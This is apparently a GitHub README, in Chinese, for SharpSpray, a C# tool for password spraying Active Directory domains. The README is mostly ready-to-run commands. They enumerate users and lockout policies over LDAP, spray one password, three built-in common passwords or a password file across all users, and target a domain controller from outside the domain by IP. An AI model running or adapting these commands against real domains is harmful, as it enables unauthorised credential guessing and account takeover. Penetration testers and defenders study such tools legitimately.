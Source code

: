 # SharpSpray

这是一个域内的密码喷射攻击工具，能通过ldap收集用户名，并根据密码设置策略进行自动域内的密码喷射攻击。SharpSpray是对SharpHose项目进行改造实现的，解决了原项目中无法在域外爆破、无法进行批量密码爆破等问题，并内置了三个域内高频率口令。

## feature

* 通过LDAP自动查找用户来进行喷射

* 根据密码策略自动喷射
* 多线程喷射，速度较快
* 能在域外对域控进行喷射

## Usage

```
Examples:
Domain Joined Spray: SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --auto
Domain Joined Spray w/ Exclusions: SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt
Non-Domain Joined Spray: SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.
Domain Joined Show Policies: SharpSpray.exe --action GET_POLICIES
Domain Joined Show Policy Users: SharpSpray.exe --action GET_POLICY_USERS --policy windows
Domain Joined Show All Users: SharpSpray.exe --action GET_ENABLED_USERS
```

### 策略发现

在使用之前可以先通过GET_POLICIES来获取当前密码策略和域内总用户数，避免用户数目过大导致服务器崩溃。

`SharpSpray.exe --action GET_POLICIES`

![image-20220317144358574](./README/image-20220317144358574.png)

### 密码喷射攻击（三种喷射模式）

`SharpSpray.exe --action SPRAY_USERS --spraypassword Aa123456789.`只爆破一个用户

`SharpSpray.exe --action SPRAY_USERS --auto` 此命令会自动爆破域内所有用户的1234qwer!@#$、1qaz@WSX1qaz、QAZwsxEDC这三个高频密码。

`SharpSpray.exe --action SPRAY_USERS --passfile c:\test.txt`爆破一个密码本

![image-20220317144519539](./README/image-20220317144519539.png)

### 域外对域控进行密码喷射攻击

`SharpSpray.exe  --dc-ip 172.16.178.9 --domain windows.local --username test --password Aa123456789. --action SPRAY_USERS --spraypassword Aa123456789.`

